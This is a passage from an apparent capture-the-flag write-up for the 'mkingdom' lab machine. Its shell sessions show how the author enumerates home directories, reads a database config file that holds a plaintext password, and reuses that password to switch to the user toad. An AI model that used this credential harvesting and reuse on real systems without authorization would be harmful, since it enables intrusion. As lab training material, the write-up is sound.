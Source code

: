 - Change it to Putty shell and move to flag capturing.

---

## 🧍 User Privilege Escalation

- We can't access any directory in `/home`.

  ```
  www-data@mkingdom:/$ cd home
  www-data@mkingdom:/home$ ls -al
  total 16
  drwxr-xr-x  4 root  root  4096 Jun  9  2023 .
  drwxr-xr-x 23 root  root  4096 Jun  7  2023 ..
  drwx------ 15 mario mario 4096 Jan 29  2024 mario
  drwxrwx--- 16 toad  toad  4096 Jan 29  2024 toad
  
  www-data@mkingdom:/home$ cd toad
  bash: cd: toad: Permission denied
  
  www-data@mkingdom:/home$ cd mario/
  bash: cd: mario/: Permission denied
  ```
  
- You can find `toad` credentials in PHP database.

  ```
  <?phpata@mkingdom:/var/www/html/app/castle/application/config$ cat database.php  

  return [
      'default-connection' => 'concrete',
      'connections' => [
          'concrete' => [
              'driver' => 'c5_pdo_mysql',
              'server' => 'localhost',
              'database' => 'mKingdom',
              'username' => 'toad',
              'password' => 'toadisthebest',
              'character_set' => 'utf8',
              'collation' => 'utf8_unicode_ci',
          ],
      ],
  ];
  ```
  
- Since I'm a madman, I tried this password for his SSH login and well...

  ```
  www-data@mkingdom:/var/www/html/app/castle/application/config$ su toad
  Password: 
  toad@mkingdom:/var/www/html/app/castle/application/config$ 
  toad@mkingdom:/var/www/html/app/castle/application/config$ id
  uid=1002(toad) gid=1002(toad) groups=1002(toad)
  ```
